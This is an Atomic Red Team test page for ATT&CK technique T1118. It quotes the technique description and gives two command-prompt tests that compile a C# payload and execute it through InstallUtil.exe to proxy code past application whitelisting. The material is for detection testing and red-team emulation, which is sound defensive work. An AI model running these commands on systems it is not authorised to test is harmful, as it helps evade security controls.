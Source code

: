 # T1118 - InstallUtil
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1118)
<blockquote>InstallUtil is a command-line utility that allows for installation and uninstallation of resources by executing specific installer components specified in .NET binaries. (Citation: MSDN InstallUtil) InstallUtil is located in the .NET directories on a Windows system: <code>C:\Windows\Microsoft.NET\Framework\v<version>\InstallUtil.exe</code> and <code>C:\Windows\Microsoft.NET\Framework64\v<version>\InstallUtil.exe</code>. InstallUtil.exe is digitally signed by Microsoft.

Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility. InstallUtil may also be used to bypass process whitelisting through use of attributes within the binary that execute the class decorated with the attribute <code>[System.ComponentModel.RunInstaller(true)]</code>. (Citation: SubTee GitHub All The Things Application Whitelisting Bypass)</blockquote>

## Atomic Tests

- [Atomic Test #1 - InstallUtil uninstall method call](#atomic-test-1---installutil-uninstall-method-call)

- [Atomic Test #2 - InstallUtil GetHelp method call](#atomic-test-2---installutil-gethelp-method-call)


<br/>

## Atomic Test #1 - InstallUtil uninstall method call
Executes the Uninstall Method

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | location of the payload | Path | C:\AtomicRedTeam\atomics\T1118\src\T1118.dll|

#### Run it with `command_prompt`! ```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:C:\AtomicRedTeam\atomics\T1118\src\T1118.dll C:\AtomicRedTeam\atomics\T1118\src\T1118.cs 
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U #{filename}
```



<br/>
<br/>

## Atomic Test #2 - InstallUtil GetHelp method call
Executes the Uninstall Method

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | location of the payload | Path | C:\AtomicRedTeam\atomics\T1118\src\T1118.dll|

#### Run it with `command_prompt`! ```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:C:\AtomicRedTeam\atomics\T1118\src\T1118.dll C:\AtomicRedTeam\atomics\T1118\src\T1118.cs 
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /? #{filename}
```



<br/>
